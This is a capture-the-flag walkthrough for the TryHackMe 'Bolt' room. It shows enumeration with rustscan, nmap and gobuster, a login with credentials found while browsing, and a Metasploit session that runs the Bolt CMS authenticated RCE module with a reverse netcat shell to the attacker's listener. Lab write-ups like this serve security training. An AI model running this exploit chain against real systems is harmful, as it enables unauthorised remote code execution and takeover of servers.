 # Room
https://tryhackme.com/room/bolt

# Task 1 - Deploy
Deploy VM

# Task 2 - Gain access
* Enumeration - rustscan
```
rustscan -a 10.10.219.59                                                                           
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.                                                                                  
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |                                                                                  
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |                                                                                  
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'                                                                                  
The Modern Day Port Scanner.                                                                                                              
________________________________________                                                                                                  
: https://discord.gg/GFrQsGy           :                                                                                                  
: https://github.com/RustScan/RustScan :                                                                                                  
 --------------------------------------         
```
* Enumeration - nmap
```
nmap -A -T4 10.10.219.59 | tee nmap.txt
```
* Enumeration - gobuster
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://10.10.219.59:8000 -t 40
```
* Enumeration - web browsing
```
Found creds during normal web browsing
```
* Initial access
```
Login with the creds found via normal web browsing http://10.10.219.59:8000/bolt
```
* Research - exploit db
  * Search exploit db for content related to the CMS
  * https://www.exploit-db.com/
* With an exploit found, load metasploit and execute what you found
```
msfconsole

msf6 > search bolt cms

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > show options

msf6 exploit(unix/webapp/bolt_authenticated_rce) > set password password_here
password => password_here
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.80.43
rhosts => 10.10.80.43
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set username username_here
username => username_here
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set lhost tun0
lhost => a.b.c.d
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on a.b.c.d:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "sgsla".
[*] Found 2 potential token(s) for creating .php files.
[+] Deleted file szgshefaph.php.
[+] Used token 74c8b43ca608b46ac367cbd9f4 to create rcfhhrrbzurc.php.
```
* Grab the flag